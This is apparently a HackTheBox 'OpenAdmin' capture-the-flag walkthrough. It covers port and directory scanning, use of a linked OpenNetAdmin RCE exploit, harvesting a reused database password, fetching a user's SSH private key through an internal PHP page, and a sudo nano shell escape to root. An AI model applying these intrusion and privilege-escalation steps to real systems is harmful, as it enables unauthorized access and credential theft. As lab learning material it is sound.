


## HackTheBox - OpenAdmin

We start with the usual portscan and see which ports are open.

`nmap  -sS -T4 -sV <IP>`


We see an open SSH server and web server.
Then we go further and enumerate the web server with FFUF.

```
ffuf -w <WORDLIST> -u http:/<IP>//FUZZ -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.171//FUZZ
 :: Wordlist         : FUZZ: all-dir-all-raft.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 3014ms]
.                       [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 927ms]
artwork                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 245ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 319ms]
marga                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 90ms]
music                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 120ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 115ms]
sierra                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 97ms]
```

We get some folders displayed and all of them have a different website set up.
I took a closer look at each website, checked if robots.txt files are present, HTTP responses and so on.
At the page under `/music` I found at the menu under `Login` a new interesting path `/ona`.

We navigate to `/ona` and see an open administration panel.


We also immediately see an interesting piece of information:

`You are NOT on the latest release version Your version    = v18.1.1`

A simple google search `"v18.1.1" "/ona"` told us that the version was vulnerable and used that exploit:
https://github.com/amriunix/ona-rce/blob/master/ona-rce.py


## PrivEsc 1 (horizontal)
The exploit worked well and we see that we are operating under the `www-data` user.
I enumerated the system carefully and found in the file `/var/www/html/ona/local/config/database_settings.inc.php` a password that was used twice.

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => '<REDACTED>',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```


## PrivEsc 2 (vertical)
However, there is no flag in our home directory of user jimmy.
If we look at the sockets on the machine, we can see that there must be something interesting on port `52846`.


The source code of the application can be found at `/var/www/internal`.

`cat /var/www/internal/main.php`

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

The line `$output = shell_exec('cat /home/joanna/.ssh/id_rsa');` shows us that we probably get the SSH_Key here.
It was already enough to get the SSH key via curl on `main.php`.



The password was quickly cracked with john-the ripper.


Now we can log in as user `joanna` via SSH and get the user flag.

`ssh -i id_rsa joanna@<IP>`



## PrivEsc 3 (horizontal)
The last privilege escalation was done quickly.

`sudo -l` and a subsequent look at https://gtfobins.github.io/gtfobins/nano/ lets us know what to do and we get the root flag.


We execute the following commands in the nano menu and are root.

```
sudo -u root /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```


